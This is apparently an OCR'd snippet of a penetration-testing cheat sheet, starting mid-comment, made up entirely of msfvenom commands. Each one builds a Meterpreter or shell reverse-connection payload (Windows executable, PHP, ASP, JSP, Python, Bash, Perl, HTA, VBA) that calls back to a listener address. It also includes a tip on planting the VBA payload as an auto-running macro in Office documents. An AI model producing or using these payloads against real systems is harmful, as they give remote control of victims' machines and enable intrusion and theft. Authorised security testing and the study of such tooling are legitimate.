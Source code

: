 ```bash
# provides)
#
msfvenom -p windows/meterpreter/reverse_tcp \
	LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -f exe-service \
	                                  -o revshell.exe

# PHP Meterpreter payload
#
msfvenom -p php/meterpreter_reverse_tcp \
	LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -f raw -o revshell.php

# ASP Meterpreter payload
#
msfvenom -p windows/meterpreter/reverse_tcp \
	LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -f asp -o revshell.asp

# JSP Meterpreter payload
#
msfvenom -p java/jsp_shell_reverse_tcp \
	LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -f raw -o revshell.jsp

# Python Meterpreter payload
#
msfvenom -p cmd/unix/reverse_python \
	LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -f raw -o revshell.py

# Bash Meterpreter payload
#
msfvenom -p cmd/unix/reverse_bash \
	LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -f raw -o revshell.sh

# Perl Meterpreter payload
#
msfvenom -p cmd/unix/reverse_perl \
	LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -f raw -o revshell.pl

# HTA Meterpreter payload
#
msfvenom -p windows/meterpreter/reverse_tcp \
	LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -f hta-psh -o revshell.hta

# VBA Meterpreter payload
#
# Note that this can't be used as-is, but must first be copied
# into a Microsoft Office document as a macro. The generated
# code hooks the Workbook_Open() function, but this must be
# changed to Document_Open() for Word.
#
msfvenom -p windows/meterpreter/reverse_tcp \
	LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -f vba -o revshell.vba
```

